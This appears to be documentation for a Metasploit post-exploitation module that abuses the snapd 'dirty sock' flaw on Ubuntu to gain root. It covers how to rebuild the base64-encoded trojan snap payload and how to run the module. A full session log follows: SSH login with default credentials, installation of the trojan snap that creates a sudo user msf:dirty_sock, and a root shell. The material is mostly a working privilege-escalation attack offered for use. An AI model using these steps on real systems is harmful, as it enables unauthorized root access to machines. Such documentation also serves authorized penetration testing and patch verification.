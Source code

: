 ## Vulnerable Application

This module exploits a vulnerability in the snapd service <2.34.2 on Ubuntu
14.04-18.04 and <2.35.5 on Ubuntu 18.10.
The service incorrectly parses a unix socket file name
containing a UID parameter, and honors it as the UID for the process.

Exploitation can be complicated since the snap container is run from a sandbox
with limited read/write to some files on the filesystem.  The exploit creates
a new user with sudo privileges, by default msf:dirty_sock.  Upon successful
exploitation, the credentials may take a minute to become viable.

Exploitation will also cause snapd to perform an auto-update, so this is
a one shot exploit.

### Extra Information

This module utilizes a snap package for exploitation.  A snap package is a squashfs
file which we base64 encode for easy delivery.  The snap package is run inside a sandbox
so exploitation vectors are limited.  The following were attempted to get a remote payload
to run:

1. Add a job to `/etc/crontab`. The snap package could read crontab, but was not able to write
2. Read/Write to the system `/tmp`. The snap package does not view the system `/tmp` but rather
a sandboxed `/tmp`.
3. Utilize networking (`curl`) to get a remote payload. Adding `network` to the snap package
did not result in the ability to successfully `curl` a payload from the attacker.
4. Dynamically add a payload to the snap package. There is limited to no support for dynamically
editing a `squashfs` file within ruby.  Since `squashfs` is compressed, attempts to perform raw
edits on the payload inside the base64 had very limited success and were not stable.

Also of note, attempts to stop snap from updating itself were unsuccessful. Bundling an edit to
`/etc/hosts` as documented here: https://askubuntu.com/questions/930593/how-to-disable-autorefresh-in-snap
did not prevent udpating. A second attempt to set `snap` to use a proxy directly as documented here:
https://discuss.linuxcontainers.org/t/disable-snap-auto-refresh-immediately/5333 were also
not successful.

### Altering Default Payload

The default payload is to create a new user with the `msf` username and `dirty_sock`
password.  However, it is relatively easy to edit the payload

To create a new payload:

1. From bash (replace empty quote with SNAP option value): `echo '' | base64 -d > /tmp/snap_payload`
2. `unsquashfs -l /tmp/snap_payload` # double check files are there and decode was good
3. `mkdir /tmp/snap_squash; cd /tmp/snap_squash`
4. `sudo unsquashfs /tmp/snap_payload`
5. Make any changes you want. This will most likely be in the `squashfs-root/meta/hooks/install`
or `squashfs-root/meta/snap.yaml` files
6. `mksquashfs /tmp/snap_squash/squashfs-root/ /tmp/snap_payload`
7. `cat /tmp/snap_payload | base64` # copy this to your clipboard
8. You will now do a `set option SNAP '<insert copy and pasted content here>'`

## Verification Steps

1. Start msfconsole
2. Get a shell on a vulnerable box
3. Do: `use post/linux/escalate/ubuntu_snapd_socket_privesc`
4. Do: `set session [#]`
5. Do: `run`
6. You should get a "Success!", and able to able to SSH in to the remote box, then `sudo` to root.

## Options

### SNAP

This is a base64 encoded snap package. See instructions in this document to modify it.

## Scenarios

### snapd 2.29.4.2 on Ubuntu 16.04


#### Initial Shell
```
[*] Processing snapd.rb for ERB directives.
resource (snapd.rb)> use auxiliary/scanner/ssh/ssh_login
resource (snapd.rb)> set username ubuntu
username => ubuntu
resource (snapd.rb)> set password ubuntu
password => ubuntu
resource (snapd.rb)> set rhosts 111.111.1.111
rhosts => 111.111.1.111
resource (snapd.rb)> run
[*] 111.111.1.111:22 - Starting bruteforce
[+] 111.111.1.111:22 - Success: 'ubuntu:ubuntu' 'uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare) Linux ubuntu 4.4.0-112-generic #135-Ubuntu SMP Fri Jan 19 11:48:36 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux '
[*] SSH session 1 opened (2.2.2.2:46713 -> 111.111.1.111:22 ) at 2022-03-15 18:52:06 -0400
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

#### Priv Esc
```
resource (snapd.rb)> use post/linux/escalate/ubuntu_snapd_socket_privesc
resource (snapd.rb)> set session 1
session => 1
resource (snapd.rb)> set verbose true
verbose => true
resource (snapd.rb)> run
[*] Found snapd 2.29.4.2 on Ubuntu 16.04
[*] Using 'python' to run exploit
[*] Writing exploit to /tmp/.nUIPGYbWr7
[*] Max line length is 65537
[*] Writing 13110 bytes in 1 chunks of 48973 bytes (octal-encoded), using printf
[*] Launching exploit: python /tmp/.nUIPGYbWr7
[*] [+] Slipped dirty sock on random socket file: /tmp/qkmqdejlyv;uid=0;
[*] [+] Binding to socket file...
[*] [+] Connecting to snapd API...
[*] [+] Deleting trojan snap (and sleeping 5 seconds)...
[*] [+] Installing the trojan snap (and sleeping 8 seconds)...
[*] [+] Deleting trojan snap (and sleeping 5 seconds)...
[*] Success!
[+] Success! You can now login and sudo with msf:dirty_sock or whatever credentials were included in the snap option. However it may take several minutes for the account to finish creation.
[*] Post module execution completed
resource (snapd.rb)> sleep 30
```

#### Use new creds
```
resource (snapd.rb)> use auxiliary/scanner/ssh/ssh_login
resource (snapd.rb)> set username msf
username => msf
resource (snapd.rb)> set password dirty_sock
password => dirty_sock
resource (snapd.rb)> run
[*] 111.111.1.111:22 - Starting bruteforce
[+] 111.111.1.111:22 - Success: 'msf:dirty_sock' 'uid=1001(msf) gid=1001(msf) groups=1001(msf),27(sudo) Linux ubuntu 4.4.0-112-generic #135-Ubuntu SMP Fri Jan 19 11:48:36 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux '
[*] SSH session 2 opened (2.2.2.2:43069 -> 111.111.1.111:22 ) at 2022-03-15 18:53:08 -0400
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
resource (snapd.rb)> use multi/manage/sudo
resource (snapd.rb)> set session 2
session => 2
resource (snapd.rb)> set password dirty_sock
password => dirty_sock
resource (snapd.rb)> run
[*] SUDO: Attempting to upgrade to UID 0 via sudo
[*] Sudoing with password `dirty_sock'.
[+] SUDO: Root shell secured.
[*] Post module execution completed
msf6 post(multi/manage/sudo) > sessions -i 2
[*] Starting interaction with 2...

id
uid=0(root) gid=0(root) groups=0(root)

uname -a
Linux ubuntu 4.4.0-112-generic #135-Ubuntu SMP Fri Jan 19 11:48:36 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux

cat /etc/os-release
NAME="Ubuntu"
VERSION="16.04.3 LTS (Xenial Xerus)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 16.04.3 LTS"
VERSION_ID="16.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
VERSION_CODENAME=xenial
UBUNTU_CODENAME=xenial

snap version
snap    2.54.4
snapd   2.54.4
series  16
ubuntu  16.04
kernel  4.4.0-112-generic
```
